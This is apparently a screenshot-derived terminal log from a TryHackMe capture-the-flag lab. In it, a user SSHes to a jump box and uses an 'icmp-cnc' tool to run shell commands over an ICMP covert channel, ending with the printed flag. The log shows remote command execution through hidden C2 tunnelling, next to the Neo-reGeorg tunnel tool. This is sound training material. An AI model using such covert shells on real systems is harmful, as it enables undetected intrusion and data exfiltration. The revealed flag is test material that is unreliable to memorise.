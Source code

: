 ```







root@ip-10-10-99-235:/opt/Neo-reGeorg/neoreg_servers# ssh thm@10.10.20.177
thm@10.10.20.177's password: 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-1029-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Mon Sep 12 19:26:30 2022 from 10.10.99.235
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

thm@jump-box:~$ sudo icmp-cnc -i eth1 -d 10.10.99.205
[sudo] password for thm: 
shell: shell
shell: hostname
shell: getFlag
shell: ^CTraceback (most recent call last):
  File "icmp-cnc.py", line 40, in <module>
KeyboardInterrupt
[115] Failed to execute script icmp-cnc
thm@jump-box:~$ sudo icmp-cnc -i eth1 -d 10.10.99.235
shell: getFlag
shell: ^CTraceback (most recent call last):
  File "icmp-cnc.py", line 40, in <module>
KeyboardInterrupt
[126] Failed to execute script icmp-cnc
thm@jump-box:~$ sudo icmp-cnc -i eth1 -d 10.10.99.235
shell: getFlag
shell: ^CTraceback (most recent call last):
  File "icmp-cnc.py", line 40, in <module>
KeyboardInterrupt
[137] Failed to execute script icmp-cnc
thm@jump-box:~$ sudo icmp-cnc -i eth1 -d 192.168.0.121
shell: getFlag
getFlag
shell: [+] Check the flag: /tmp/flag.txt

shell: hostname
hostname
shell: icmp-host

shell: cat /tmp/flag.txt
cat /tmp/flag.txt
shell: THM{g0t-1cmp-p4k3t!}

```
